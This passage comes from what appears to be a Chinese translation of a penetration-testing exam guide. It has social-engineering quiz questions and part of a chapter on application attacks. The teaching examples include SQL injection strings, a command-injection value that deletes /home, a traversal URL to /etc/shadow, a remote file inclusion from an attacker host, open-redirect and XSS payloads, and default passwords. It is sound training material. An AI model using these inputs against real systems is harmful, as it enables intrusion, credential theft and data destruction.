13. Allan 想要进入目标公司的场所，但发现他原本想翻越围墙的想法可能不切实际。他的新计划是假装成送货员，携带一个需要员工亲自签收的包裹。他正在使用什么技术？

1. 权威
2. 预设借口
3. 社会认同
4. 相似性

14. Charles 向目标组织发送钓鱼邮件，并包含“只有五名受访者将获得现金奖励”的句子。他正在使用哪种社会工程学动机策略？

1. 稀缺性
2. 社会认同
3. 恐惧
4. 权威

15. 在以物物交换为诱饵的社会工程学攻击中会发生什么？

1. 目标被提供金钱。
2. 目标被要求提供金钱。
3. 目标被让感到欠债。
4. 渗透测试人员被让感到欠债。

16. Andrew 知道目标公司的员工经常访问当地流行的足球讨论网站。作为渗透测试的一部分，他成功地在该网站上放置了恶意软件，并接管了多台员工电脑。他使用了哪种类型的攻击？

1. PWNie 攻击
2. 水冷机攻击
3. 克隆攻击
4. 水坑攻击

17. Steve 在现场渗透测试期间无意中触发了警报，并被保安发现。他的第一反应应该是什么？

1. 报警。
2. 试图逃跑。
3. 提供他的预设借口。
4. 联系他的组织联系人。

18. USB 投放是哪种技术的示例？

1. 物理蜜罐
2. 人道主义漏洞利用
3. 反向垃圾箱搜索
4. 混合攻击

19. Susan 给她受聘进行钓鱼活动的公司的员工打电话，重点关注财务部门的个人。几天之内，她说服一名员工向她设立的账户汇款，并告诉该员工她已经让他们的老板知道他们有多有才华。她使用了哪种动机技术？

1. 紧迫性
2. 互惠
3. 权威
4. 恐惧

20. Alexa 仔细观察一名员工输入其目标组织高安全区域的门禁代码，并记下她观察到的代码。她进行了哪种类型的攻击？

1. Setec Astronomy 攻击
2. 代码监视
3. 肩窥
4. 键盘捕获

# 第 9 章

## 利用应用程序漏洞

每个组织都使用几十个，甚至数百个不同的应用程序。虽然安全团队和管理员通常能很好地修补和维护操作系统，但由于应用程序数量庞大，应用程序往往是一个更具挑战性的任务。因此，许多第三方工具长期未打补丁。定制开发的应用程序往往存在更大的漏洞，因为没有供应商来创建和发布安全补丁。更糟糕的是，许多应用程序是基于 Web 的并且暴露在互联网上，这使得它们成为恶意入侵者试图在组织内立足的有吸引力的目标。

渗透测试人员了解这一现实并利用它来获取优势。基于 Web 的应用程序是测试人员和黑客的首选起点。如果攻击者能够突破 Web 应用程序的安全性并访问支持该应用程序的后端系统，他们通常就拥有发动大规模攻击所需的起点。在本章中，我们将探讨渗透测试中常见的许多应用程序漏洞。

### 利用注入漏洞

注入漏洞是渗透测试人员用来突破 Web 应用程序并访问支持该应用程序的系统的主要机制之一。这些漏洞允许攻击者向 Web 应用程序提供某种类型的代码作为输入，并诱骗 Web 服务器执行该代码，或将其提供给另一台服务器执行。

#### 输入验证

网络安全专业人员和应用程序开发人员有多种工具可用于防止注入漏洞。其中最重要的是输入验证。允许用户输入的应用程序应对该输入进行验证，以减少其包含攻击的可能性。

最有效的输入验证形式是输入白名单，开发人员描述期望从用户那里收到的确切输入类型，然后在将输入传递给其他进程或服务器之前验证输入是否符合该规范。例如，如果输入表单提示用户输入年龄，输入白名单可以验证用户提供的是 0–120 范围内的整数值。应用程序将拒绝该范围外的任何值。

由于许多允许用户输入的字段的性质，执行输入白名单通常很困难。例如，想象一个分类广告应用程序，允许用户输入他们希望出售的产品的描述。要编写描述该字段所有有效提交的逻辑规则，同时还能防止插入恶意代码，将会很困难。在这种情况下，开发人员可能会使用输入黑名单来控制用户输入。使用这种方法，开发人员不尝试明确描述可接受的输入，而是描述必须阻止的潜在恶意输入。例如，开发人员可能会限制用户输入中 HTML 标签或 SQL 命令的使用。在执行输入验证时，开发人员必须注意字段中可能出现的合法输入类型。例如，完全禁止使用单引号 (') 可能有助于防止 SQL 注入攻击，但也可能使得难以输入包含撇号的姓氏，例如 O'Brien。

#### Web 应用程序防火墙

Web 应用程序防火墙 (WAF) 也在保护 Web 应用程序免受攻击方面发挥着重要作用。开发人员应始终依赖输入验证作为防御注入攻击的主要手段，但现实是，应用程序有时仍然包含注入缺陷。这可能发生在开发人员测试不足，或者供应商没有及时为易受攻击的应用程序提供补丁的情况下。


WAF 的工作方式与网络防火墙类似，但它们在应用层运行。WAF 位于 Web 服务器前面，如 图 9.1 所示，并接收所有发往该服务器的网络流量。然后，它会仔细检查发往应用程序的输入，在将输入传递给 Web 服务器之前执行输入验证（白名单和/或黑名单）。这可以防止恶意流量到达 Web 服务器，并作为针对 Web 应用程序漏洞的分层防御的重要组成部分。


FIGURE 9.1 Web application firewall

### SQL 注入攻击

SQL 注入攻击试图通过 Web 应用程序向支持该应用程序的后端数据库发送命令。我们已在 第 5 章“分析漏洞扫描”中详细介绍了基本的 SQL 注入攻击，因此此处不再重复该说明。如果你不了解渗透测试人员如何执行 SQL 注入攻击，请务必返回并重新阅读该章节的“注入攻击”部分。

在 第 5 章 中讨论的基本 SQL 注入攻击中，攻击者能够向 Web 应用程序提供输入，然后监控该应用程序的输出以查看结果。虽然这是攻击者的理想情况，但许多存在 SQL 注入缺陷的 Web 应用程序并未为攻击者提供直接查看攻击结果的手段。然而，这并不意味着攻击不可能；它只是使攻击变得更加困难。攻击者使用一种称为盲 SQL 注入的技术，即使无法直接查看结果，也能进行攻击。我们将讨论两种形式的盲 SQL 注入：基于布尔的和基于时间的。

#### 基于布尔的盲 SQL 注入

在基于布尔的盲 SQL 注入攻击中，攻击者向 Web 应用程序发送输入，以测试应用程序是否在尝试执行攻击之前正在解释注入的代码。例如，考虑一个要求用户输入账户号码的 Web 应用程序。这个网页的简单版本可能如 图 9.2 所示。


FIGURE 9.2 Account number input page

当用户在该页面中输入账户号码后，接下来将看到与该账户关联的信息列表，如 图 9.3 所示。


FIGURE 9.3 Account information page

支持该应用程序的 SQL 查询可能类似于以下内容：

```
SELECT FirstName, LastName, Balance
FROM Accounts
WHERE AccountNumber = '$account'
```

其中，`$account` 字段由 图 9.2 中的输入字段填充。在此场景中，攻击者可以通过在账户号码字段中放置以下输入来测试标准 SQL 注入漏洞：

```
52019' OR 1=1;––
```

如果成功，这将导致将以下查询发送到数据库：

```
SELECT FirstName, LastName, Balance
FROM Accounts
WHERE AccountNumber = '52019' OR 1=1
```

此查询将匹配所有结果。但是，Web 应用程序的设计可能会忽略第一行之后的任何查询结果。如果是这种情况，该查询将显示与 图 9.3 中所示相同的结果。虽然攻击者可能无法看到查询结果，但这并不意味着攻击不成功。然而，由于对应用程序的视图如此有限，很难区分防御良好的应用程序和成功的攻击。

攻击者可以通过使用已知会产生结果的输入（例如提供来自 图 9.3 的账户号码 52019，并使用修改该查询以不返回任何结果的 SQL）来进行进一步测试。例如，攻击者可以向该字段提供以下输入：

```
52019' AND 1=2;--
```

如果 Web 应用程序易受基于布尔的 SQL 注入攻击，它将向数据库发送以下查询：

```
SELECT FirstName, LastName, Balance
FROM Accounts
WHERE AccountNumber = '52019' AND 1=2
```

当然，此查询永远不会返回任何结果，因为 1 永远不等于 2！因此，Web 应用程序将返回一个没有结果的页面，如 图 9.4 所示。如果攻击者看到此页面，他们可以相当确定该应用程序易受盲 SQL 注入攻击，然后可以尝试更恶意的查询来更改数据库的内容或执行其他不需要的操作。


FIGURE 9.4 Account information pageafter blind SQL injection

#### 基于时间的盲 SQL 注入

除了使用应用程序返回的内容来评估易受盲 SQL 注入攻击的可能性外，渗透测试人员还可以使用处理查询所需的时间作为从数据库检索信息的通道。

这些攻击依赖于不同数据库平台提供的延迟机制。例如，Microsoft SQL Server 的 Transact-SQL 允许用户指定如下命令：

```
WAITFOR DELAY '00:00:15' 
```

此命令将指示数据库在执行下一个操作之前等待 15 秒。寻求验证应用程序是否易受基于时间的攻击的攻击者可能向账户 ID 字段提供以下输入：

```
52019'; WAITFOR DELAY '00:00:15'; --
```

立即返回 图 9.3 中所示结果的应用程序可能不易受基于时间的攻击。但是，如果应用程序在 15 秒延迟后返回结果，则很可能易受攻击。

这可能看起来像是一种奇怪的攻击，但实际上可以用于从数据库中提取信息。例如，假设前面示例中使用的 Accounts 数据库表包含一个名为 Password 的未加密字段。攻击者可以使用基于时间的攻击通过逐个字母检查来发现密码。

执行基于时间的攻击的 SQL 有些复杂，你不需要知道它来参加考试。相反，这里有一些伪代码，说明攻击在概念上如何工作：

```
For each character in the password
     For each letter in the alphabet
        If the current character is equal to the current letter, wait 15 seconds 
        before returning results
```

通过这种方式，攻击者可以遍历所有可能的密码组合，逐个字符地找出密码。这可能看起来非常乏味，但 SQLmap 和 Metasploit 等工具可以自动化基于时间的盲攻击，使它们变得相当简单。

### 代码注入攻击

SQL 注入攻击是称为代码注入攻击的一般攻击类别的一个特定示例。这些攻击试图将攻击者编写的代码插入到 Web 应用程序开发人员创建的合法代码中。任何将用户提供的输入插入到应用程序开发人员编写的代码中的环境都可能易受代码注入攻击。

除了 SQL 注入之外，跨站点脚本是代码注入攻击的一个示例，它将攻击者编写的 HTML 代码插入到开发人员创建的 Web 页面中。我们将在本章后面详细讨论跨站点脚本。

### 命令注入攻击


在某些情况下，应用程序代码可能会调用操作系统来执行命令。这尤其危险，因为攻击者可能会利用应用程序中的漏洞，获得直接操纵操作系统的能力。例如，请参考 图 9.5 中所示的简单应用程序。


FIGURE 9.5 Account creation page

该应用程序为课程设置新的学生账户。除其他操作外，它会在服务器上为学生创建一个目录。在 Linux 系统上，应用程序可能会使用 `system()` 调用将目录创建命令发送给底层操作系统。例如，如果有人在文本框中填写：

```
mchapple
```

该应用程序可能会使用函数调用：

```
system('mkdir /home/students/mchapple')
```

为该用户创建主目录。检查该应用程序的攻击者可能会猜测应用程序的工作原理，然后提供以下输入：

```
mchapple & rm -rf /home
```

应用程序随后使用该输入来创建系统调用：

```
system('mkdir /home/students/mchapple & rm -rf home')
```

这组命令会删除 `/home` 目录以及其中包含的所有文件和子文件夹。命令中的 & 符号表示操作系统应将 & 符号后的文本作为单独的命令执行。这使攻击者能够通过利用仅用于执行 `mkdir` 命令的输入字段来执行 `rm` 命令。

### LDAP 注入攻击

`Lightweight Directory Access Protocol (LDAP)` 是一种目录服务协议，被 Microsoft Active Directory 和其他身份与访问管理系统使用。LDAP 提供基于查询的接口，允许其他服务从 LDAP 数据库获取信息。此接口也使 LDAP 暴露于注入攻击，其方式类似于数据库易受 SQL 注入攻击。

`LDAP 注入` 攻击试图将额外代码插入 LDAP 查询中，其目的是允许攻击者从组织的 LDAP 服务器检索未经授权的信息，或绕过身份验证机制。幸运的是，防御 SQL 注入攻击的相同输入验证和转义技术对防御 LDAP 注入攻击也同样有效。

## 利用身份验证漏洞

应用程序（如服务器和网络）依赖身份验证机制来确认用户和设备的身份，并验证它们是否有权执行特定操作。攻击者和渗透测试人员都常常试图破坏这些身份验证系统的安全性，因为如果他们能够做到，就可能获得受该身份验证基础设施保护的系统、服务和信息的非法访问权限。

### 密码身份验证

密码是当今最常见的身份验证形式，但不幸的是，它们也是最容易被击破的。原因在于密码是一种基于知识的身份验证技术。攻击者一旦获知用户的密码，就可以从那时起冒充该用户，直到密码过期或被更改为止。

攻击者获取用户密码的方式有很多，从技术手段到社交手段不等。以下是攻击者可能发现用户密码的几种可能方式：

*   实施社交工程攻击，诱使用户直接或通过虚假身份验证机制泄露密码

*   窃听未加密的网络流量

*   获取先前被攻破网站的密码转储，并假设大量用户会在其他网站重复使用该网站的密码

除了这些方法，攻击者还可能实施凭据暴力破解攻击，即从目标系统获取常见密码的 `word list` 或一组弱哈希密码，然后进行穷举搜索以破解这些密码并获得系统访问权限。我们将在 第 10 章 “攻击主机、云技术和专用系统”中更详细地讨论密码破解技术。

在某些情况下，应用程序开发人员、供应商和系统管理员会让攻击者轻松得手。系统通常附带可能保持不变的默认管理员账户。例如，图 9.6 显示了 Zyxel 路由器手册的一部分，其中包含默认用户名和密码，以及更改该密码的说明。


FIGURE 9.6 Zyxel router default password ¶ Source: [`www.zyxel.com/support/Zyxel-password-changing-procedure-20161213-v2.pdf`](https://www.zyxel.com/support/Zyxel-password-changing-procedure-20161213-v2.pdf)

渗透测试人员可能会假设管理员未更改默认密码，并尝试在应用程序和设备上使用各种默认密码以获取访问权限。一些常见的用户名/密码组合如下：

*   administrator/password

*   admin/password

*   admin/admin

许多网站维护着广泛应用程序和设备使用的默认密码的详细目录。这些网站是寻求访问网络设备的渗透测试人员的绝佳起点。

### 会话攻击

凭据窃取攻击允许黑客或渗透测试人员使用被盗账户直接向服务进行身份验证。`Session hijacking` 攻击采用不同的方法，即窃取现有的已验证会话。这些攻击不要求攻击者获得身份验证机制的访问权限；相反，它们接管与网站的已验证会话。

大多数需要身份验证的网站使用用户浏览器中管理的 HTTP `cookies` 来管理用户会话。如 图 9.7 所示，用户访问网站的登录表单并使用其凭据进行身份验证。如果用户通过身份验证过程，网站会向用户的浏览器提供一个 cookie，该 cookie 可用于验证未来的请求。一旦用户在浏览器中存储了有效的 cookie，浏览器就会在向网站发出的所有未来请求中传输该 cookie。网站检查 cookie 并确定用户已经过身份验证，无需重新输入密码或完成其他身份验证任务。


FIGURE 9.7 Session authentication with cookies

cookie 只是存储在用户浏览器中的存储对象，包含可由创建它们的网站稍后访问的变量。您可以将 cookie 视为网站在用户浏览器中维护的小型信息数据库。cookie 包含一个身份验证字符串，将 cookie 与特定用户会话绑定。图 9.8 显示了 [CNN.com](http://cnn.com) 网站使用的 cookie 示例，在 Chrome 浏览器中查看。如果您检查自己浏览器的 cookie 缓存内容，您可能会发现您访问过的网站维护了数百或数千个 cookie。这些 cookie 可能存储在计算机上多年，并易受攻击者查看、修改或窃取。


# Session Fixation Attacks

*Session fixation attacks* 是会话劫持攻击的一种变体，攻击者利用那些在用户会话之间重复使用相同会话 ID 而非在每次会话结束后将其过期的应用程序。在这种情况下，攻击者可能通过以下步骤获取用户账户的访问权限：

1. 通过某种机制获取旧会话 ID。在会话 ID 存储在身份验证 Cookie 中的情况下，攻击者可能会使用恶意软件访问用户设备上的 Cookie。在会话 ID 通过 URL 参数或隐藏表单字段传递的情况下，攻击者可能会通过窃听或窃取日志文件来获取它。

   

   FIGURE 9.8 Session cookie from [CNN.com](http://cnn.com)

2. 通过弹出窗口、发送链接或其他方式强制用户向网站进行身份验证。重要的是，攻击者不需要能够观察身份验证过程；他们只需让用户执行身份验证即可。这会重新激活旧会话 ID。

3. 使用会话 ID 向远程服务进行身份验证，从而获取用户账户的访问权限。

## Cookie Stealing and Manipulation

正如你刚才读到的，Cookie 充当绕过网站身份验证机制的密钥。打个比方，想象一下参加一场贸易会议。当你到达注册摊位时，可能会被要求提供照片身份证并支付注册费。在这种情况下，你经历了一个身份验证过程。注册后，摊位工作人员会给你一张徽章，你在展会剩余时间里将其挂在脖子上。从那时起，任何安保人员只需瞥一眼你的徽章，就知道你已经过身份验证并获得了进入展会的权限。如果有人偷走了你的徽章，他们现在就拥有与你相同的展会访问权限。

Cookie 的工作原理也是如此。它们只是徽章的数字版本。如果攻击者能够偷走某人的 Cookie，他们就可以冒充该用户，从而访问颁发该 Cookie 的网站。这种身份验证凭据的重用是 *replay attack* 的一个示例。攻击者可能会通过多种方式获取 Cookie：

* 窃听未加密的网络连接，并在 Cookie 在用户和网站之间传输时窃取其副本。当系统设计为使用不安全的数据传输技术（例如未加密的协议）时，这成为可能。

* 在用户的浏览器上安装恶意软件，该软件会检索 Cookie 并将其传回给攻击者。

* 进行 *man‐in‐the‐middle attack*（中间人攻击），也称为 *on‐path attack*（路径攻击），攻击者诱使用户认为攻击者就是目标网站，并呈现一个虚假的身份验证表单。然后攻击者可以代表用户向网站进行身份验证并获取 Cookie。

攻击者获得 Cookie 后，可以进行 Cookie 操纵以更改发送回网站的详细信息，或者简单地将 Cookie 用作进入网站所需的徽章，如 Figure 9.9 所示。


FIGURE 9.9 Session hijacking with cookies

## Unvalidated Redirects

不安全的 URL 重定向是攻击者可能利用的另一种漏洞，以试图窃取用户会话。某些 Web 应用程序允许浏览器将目标 URL 传递给应用程序，然后在用户事务完成时将用户重定向到该 URL。例如，订购页面可能使用具有以下结构的 URL：

```
https://www.mycompany.com/ordering.php?redirect=http%3a//www.mycompany.com/thankyou.htm
```

然后，Web 应用程序会在事务结束时将用户发送到感谢页面。这种方法对 Web 开发人员很方便，因为它允许管理员在不更改应用程序代码的情况下修改目标页面。但是，如果应用程序允许重定向到任何 URL，就会产生一种称为 *unvalidated redirect* 的情况，攻击者可以利用它将用户重定向到恶意网站。例如，攻击者可能会在留言板上发布指向上一页面的链接，但将 URL 更改为如下形式：

```
https://www.mycompany.com/ordering.php?redirect=http%3a//www.evilhacker.com/passwordstealer.htm
```

访问此链接的用户会在 [mycompany.com](http://mycompany.com) 网站上完成合法交易，但随后会被重定向到攻击者的页面，在那里代码可能会将用户直接引入会话窃取或凭据窃取攻击。

寻求在其应用程序中包含重定向选项的开发人员应执行 *validated redirects*，以检查重定向 URL 是否与批准列表匹配。该列表可能指定授权重定向的精确 URL，或者更简单地，它可能只是将重定向限制在来自同一域的 URL 上。

## Kerberos Exploits

*Kerberos* 是一种常用的集中式身份验证协议，旨在通过利用加密在不受信任的网络上运行。Kerberos 使用如 Figure 9.10 所示的身份验证过程。用户向身份验证服务器 (AS) 进行身份验证，并最初获取票据授予票据 (TGT)。然后，他们使用 TGT 从身份验证服务器获取服务器票据，这些票据可用于向单个服务证明其身份。

Kerberos 依赖于中央密钥分发中心 (KDC)。KDC 被攻破将允许攻击者冒充任何用户。Kerberos 攻击在过去几年中受到了广泛关注，因为针对受攻破 KDC 的本地攻击导致了 Kerberos 身份验证系统的完全攻破。常见的 Kerberos 攻击包括以下内容：

* 管理员账户攻击，攻击者攻破管理员账户并利用它来操纵 KDC

* Kerberos 票据重用，包括 pass‐the‐ticket 攻击，这些攻击允许在票据有效期内冒充合法用户，以及 pass‐the‐key 攻击，这些攻击重用密钥来获取票据

   

   FIGURE 9.10 Kerberos authentication process

* 票据授予票据 (TGT) 导向的攻击。TGT 非常有价值，并且可以创建具有延长有效期的 TGT。当攻击者成功获取 TGT 时，他们通常将其称为“金票”，因为它们允许完全访问 Kerberos 连接的系统，包括创建新票据、更改账户，甚至伪造账户或服务。

# Exploiting Authorization Vulnerabilities

我们已经探讨了允许攻击者向后端系统发送代码的注入漏洞，以及允许攻击者冒充合法用户身份的身份验证漏洞。现在让我们来看看一些授权漏洞，这些漏洞允许攻击者超出其授权的访问级别。

## Insecure Direct Object References

在某些情况下，Web 开发人员设计应用程序，直接根据用户在查询字符串或 POST 请求中提供的参数从数据库中检索信息。例如，此查询字符串可用于从文档管理系统中检索文档：

```
https://www.mycompany.com/getDocument.php?documentID=1842
```

只要应用程序还实现了其他授权机制，这种方法就没有问题。应用程序仍有责任确保用户已正确通过身份验证，并有权访问请求的文档。


之所以会出现这种情况，是因为攻击者可以轻松查看此 URL，然后对其进行修改以尝试检索其他文档，例如下面的示例：

```
https://www.mycompany.com/getDocument.php?documentID=1841
https://www.mycompany.com/getDocument.php?documentID=1843
https://www.mycompany.com/getDocument.php?documentID=1844
```

如果应用程序不执行授权检查，用户可能被允许查看超出其权限的信息。这种情况被称为 `insecure direct object reference`。

# 目录遍历

某些 Web 服务器存在安全配置错误，允许用户浏览目录结构并访问应保持安全的文件。当 Web 服务器允许包含用于浏览目录路径的操作符，且文件系统访问控制未能正确限制对服务器上其他位置存储的文件的访问时，这些 `directory traversal` 攻击就会生效。

例如，考虑一台将 Web 内容存储在目录路径 `/var/www/html/` 中的 Apache Web 服务器。同一台服务器可能将包含哈希用户密码的影子密码文件存储在 `/etc` 目录中，文件名为 `/etc/shadow`。这两个位置通过相同的目录结构相互关联，如 图 9.11 所示。


FIGURE 9.11 Example web server directory structure

如果 Apache 服务器将 `/var/www/html/` 用作网站的根位置，除非另有说明，否则这是所有文件的默认路径。例如，如果网站是 [www.mycompany.com](http://www.mycompany.com)，则 URL [www.mycompany.com/account.php](http://www.mycompany.com/account.php) 将引用服务器上存储的文件 `/var/www/html/account.php`。

在 Linux 操作系统中，文件路径中的 `..` 操作符指的是比当前目录高一级的目录。例如，路径 `/var/www/html/../` 指的是比 `html` 目录高一级的目录，即 `/var/www/`。

目录遍历攻击利用这一知识，试图导航到 Web 服务器保留的文件系统区域之外。例如，目录遍历攻击可能会尝试通过输入以下 URL 来访问影子密码文件：

```
http://www.mycompany.com/../../../etc/shadow
```

如果攻击成功，Web 服务器会乖乖地在攻击者的浏览器中显示影子密码文件，为对凭据进行暴力破解攻击提供起点。攻击 URL 使用 `..` 操作符三次来浏览目录层次结构。如果你回顾 图 9.11 并使用 `/var/www/html` 目录作为起点，第一个 `..` 操作符将带你到 `/var/www`，第二个将带你到 `/var`，第三个将带你到根目录 `/`。URL 的其余部分将带你进入 `/etc/` 目录并到达 `/etc/shadow` 文件的位置。

渗透测试人员还可能会查找 Web 服务器上的常见路径以识别隐藏的应用程序。例如，他们可能会检查以下类似的 URL：

```
http://www.mycompany.com/admin
http://www.mycompany.com/inside
http://www.mycompany.com/employees
http://www.mycompany.com/portal
```

希望偶然发现那些并非面向公众使用但又未得到妥善保护的资源。如 图 9.12 所示的 DirBuster 工具，通过扫描 Web 服务器上的数千个常见 URL 来自动化此过程。


FIGURE 9.12 Directory scanning with DirBuster

### 文件包含

`File inclusion attacks` 将目录遍历提升到一个新的层次。与仅从本地操作系统检索文件并将其显示给攻击者不同，文件包含攻击实际上会执行文件中包含的代码，允许攻击者诱骗 Web 服务器执行任意代码。

文件包含攻击有两种变体：

*   `Local file inclusion` 攻击试图执行存储在 Web 服务器上其他位置的文件中的代码。它们的工作方式与目录遍历攻击非常相似。例如，攻击者可能会使用以下 URL 来执行存储在 Windows 服务器的 `C:\www\uploads` 目录中的名为 `attack.exe` 的文件：

    *   ```
        http://www.mycompany.com/app.php?include=C:\\www\\uploads\\attack.exe
        ```

*   `Remote file inclusion` 攻击允许攻击者进一步执行存储在远程服务器上的代码。这些攻击尤其危险，因为攻击者可以直接控制正在执行的代码，而无需先将文件存储在本地服务器上。例如，攻击者可能会使用以下 URL 来执行存储在远程服务器上的攻击文件：

    *   ```
        http://www.mycompany.com/app.php?include=http://evil.attacker.com/attack.exe
        ```

当攻击者发现文件包含漏洞时，他们通常会利用它将 `web shell` 上传到服务器。Web shell 允许攻击者在服务器上执行命令并在浏览器中查看结果。这种方法使攻击者能够通过常用的 HTTP 和 HTTPS 端口访问服务器，使其流量不太容易被安全工具检测到。此外，攻击者甚至可能会修复他们用来获得服务器访问权限的初始漏洞，以防止被另一个试图控制服务器的攻击者或可能因此发现成功攻击的安全团队发现。

### 权限提升

我们在 第 5 章 中讨论了权限提升攻击。在那次讨论中，我们在操作系统漏洞的背景下提到了这些攻击。

针对应用程序的权限提升攻击也是可能的。在这些情况下，攻击者首先获得标准用户的应用程序账户访问权限，然后利用一个或多个漏洞利用该账户获得管理员权限。

## 利用 Web 应用程序漏洞

Web 应用程序是由应用程序代码、Web 平台、操作系统、数据库和互连的 `application programming interfaces (APIs)` 组成的复杂生态系统。这些环境的复杂性使得多种不同类型的攻击成为可能，并为渗透测试人员提供了肥沃的土壤。我们已经研究了针对 Web 应用程序的各种攻击，包括注入攻击、会话劫持、目录遍历等。在以下部分中，我们将通过探索跨站点脚本、跨站点请求伪造和点击劫持来完善对基于 Web 的漏洞利用的了解。

### 跨站点脚本 (XSS)

`Cross‐site scripting (XSS) attacks` 发生在 Web 应用程序允许攻击者执行 `HTML injection`（将其自己的 HTML 代码插入网页）时。

#### 反射型 XSS

当应用程序允许 `reflected input` 时，XSS 攻击通常会发生。例如，考虑一个包含单个文本框的简单 Web 应用程序，要求用户输入姓名。当用户单击提交时，Web 应用程序会加载一个新页面，显示“Hello, `name`。”

在正常情况下，此 Web 应用程序按设计运行。但是，恶意个人可以利用此 Web 应用程序来欺骗毫无戒心的第三方。如你所知，可以使用 HTML 标签 `<SCRIPT>` 和 `</SCRIPT>` 在网页中嵌入脚本。假设你没有在姓名字段中输入 `Mike`，而是输入以下文本：

```
Mike<SCRIPT>alert('hello')</SCRIPT>
```


当 Web 应用程序将此输入“反射”为网页形式时，您的浏览器会像处理任何其他网页一样处理它；它会显示网页的文本部分并执行脚本部分。在这种情况下，脚本只是打开一个显示“hello”的弹出窗口。但是，您可以更具恶意，包含一个更复杂的脚本，要求用户提供密码并将其传输给恶意的第三方。

此时，您可能会问自己，任何人如何会成为这种攻击的受害者。毕竟，您不会通过在向执行反射的 Web 应用程序提供的输入中嵌入脚本来攻击自己。这种攻击的关键在于，可以在链接中嵌入表单输入。恶意个人可以创建一个带有名为“在 First Bank 检查您的帐户”的链接的网页，并在链接中编码表单输入。当用户访问该链接时，网页看起来像是一个真实的 First Bank 网站（因为它确实是！），工具栏中有正确的地址和有效的数字证书。但是，网站随后会执行恶意用户包含在输入中的脚本，该脚本看起来是有效网页的一部分。

跨站点脚本的答案是什么？在创建允许任何类型用户输入的 Web 应用程序时，开发人员必须确保执行 `input validation`。在最基本的级别，应用程序绝不应允许用户在反射输入字段中包含 `<SCRIPT>` 标签。但是，这并不能完全解决问题；勤奋的 Web 应用程序攻击者有许多巧妙的替代方案。最佳解决方案是确定应用程序 `will` 允许的输入类型，然后验证输入以确保它与该模式匹配。例如，如果应用程序有一个允许用户输入年龄的文本框，它应只接受一到三位数字作为输入。应用程序应拒绝任何其他无效输入。

#### Stored/Persistent XSS

跨站点脚本攻击通常利用反射输入，但这不是攻击可能发生的唯一方式。另一种常见技术是将跨站点脚本代码存储在远程 Web 服务器上，这种方法称为 `stored XSS`。这些攻击被描述为持久性，因为即使攻击者没有积极发起攻击，它们也会留在服务器上。

例如，考虑一个允许用户发布包含 HTML 代码的消息的留言板。这非常常见，因为用户可能希望使用 HTML 为他们的帖子添加强调。例如，用户可能在留言板帖子中使用以下 HTML 代码：

```
<p>Hello everyone,</p>
<p>I am planning an upcoming trip to <A HREF=
'https://www.mlb.com/mets/ballpark'>Citi Field</A> to see the Mets take on the
Yankees in the Subway Series.</p>
<p>Does anyone have suggestions for transportation?  I am staying in Manhattan 
and am only interested in <B>public transportation</B> options.</p>
<p>Thanks!</p>
<p>Mike</p>
```

在浏览器中显示时，HTML 标签将改变消息的外观，如 Figure 9.13 所示。


FIGURE 9.13 Message board post rendered in a browser

寻求进行跨站点脚本攻击的攻击者可能会尝试在此代码中插入 HTML 脚本。例如，他们可能会输入以下代码：

```
<p>Hello everyone,</p>
<p>I am planning an upcoming trip to <A HREF=
'https://www.mlb.com/mets/ballpark'>Citi Field</A> to see the Mets take on the 
Yankees in the Subway Series.</p>
<p>Does anyone have suggestions for transportation?  I am staying in Manhattan 
and am only interested in <B>public transportation</B> options.</p>
<p>Thanks!</p>
<p>Mike</p>
<SCRIPT>alert('Cross-site scripting!')</SCRIPT>
```

当未来用户加载此消息时，他们将看到如 Figure 9.14 所示的警报弹出窗口。这相当无害，但 XSS 攻击也可用于将用户重定向到钓鱼网站、请求敏感信息或执行其他攻击。


FIGURE 9.14 XSS attack rendered in a browser

### Request Forgery

`Request forgery` 攻击利用信任关系，并试图使用户无意中对远程服务器执行命令。它们有两种形式：跨站点请求伪造和服务器端请求伪造。

#### Cross‐Site Request Forgery (CSRF/XSRF)

`Cross‐site request forgery` 攻击，缩写为 XSRF 或 CSRF 攻击，与跨站点脚本攻击类似，但利用不同的信任关系。XSS 攻击利用用户对网站的信任在用户计算机上执行代码。XSRF 攻击利用远程站点对用户系统的信任，以用户的名义执行命令。

XSRF 攻击的工作原理是基于一个合理的假设：用户通常同时登录到许多不同的网站。攻击者随后在一个网站中嵌入代码，该代码向第二个网站发送命令。当用户单击第一个站点上的链接时，他们无意中向第二个站点发送命令。如果用户恰好已登录到该第二个站点，命令可能会成功。

例如，考虑一个在线银行网站。想要从用户账户中窃取资金的攻击者可能会去在线论坛，发布一条包含链接的消息。该链接实际上直接进入资金转账网站，该网站会发出将资金转移到攻击者账户的命令。攻击者随后将链接留在论坛上，等待毫无戒心的用户过来单击该链接。如果用户恰好已登录到银行网站，转账将成功。

开发人员应保护其 Web 应用程序免受 XSRF 攻击。一种方法是创建使用安全令牌的 Web 应用程序，攻击者不会知道将这些令牌嵌入到链接中。另一种保障措施是站点检查从最终用户接收到的请求中的引用 URL，并仅接受来自其自身站点的请求。

#### Server‐Side Request Forgery (SSRF)

`Server‐side request forgery` (SSRF) 攻击利用类似的漏洞，但不是诱骗用户的浏览器访问 URL，而是诱骗服务器基于用户提供的输入访问 URL。当 Web 应用程序将用户提供的 URL 作为输入并随后从这些 URL 检索信息时，SSRF 攻击是可能的。如果服务器可以访问非公开 URL，SSRF 攻击可能会无意中将该信息泄露给攻击者。

### Clickjacking

`Clickjacking` 攻击利用网页的设计元素，诱使用户无意中单击执行恶意操作的链接。例如，clickjacking 攻击可能会在修改浏览器安全设置的链接上显示广告。用户天真地单击广告，无意中修改了系统安全设置，使攻击者能够控制系统。

## Unsecure Coding Practices

我们现在已经从攻击者的角度广泛研究了 Web 应用程序漏洞。攻击者确实有许多方式可以利用安全缺陷来危及应用程序的安全。现在让我们转换视角，看看开发人员可能从事的一些不安全的代码实践，无意中破坏应用程序安全。

### Source Code Comments

注释是任何优秀开发人员工作流程的重要组成部分。在代码中战略性地放置注释，它们可以记录设计选择、解释工作流，并提供其他开发人员可能后来被要求修改或排查代码时至关重要的细节。当放在正确的人手中时，注释至关重要。


但是，注释也可能为攻击者提供一张路线图，解释代码的工作原理。在某些情况下，注释甚至可能包含应保密的关键安全细节。开发人员应采取措施，确保其代码的注释版本保持秘密。对于编译代码，这是不必要的，因为编译器会自动从可执行文件中删除注释。但是，暴露其代码的 Web 应用程序可能允许远程用户查看代码中留下的注释。在这些环境中，开发人员应在部署前从生产版本的代码中删除注释。将注释保留在存档的源代码中作为未来开发人员的参考是可以的——只是不要让它们对互联网上的未知个人可访问！

## 错误处理

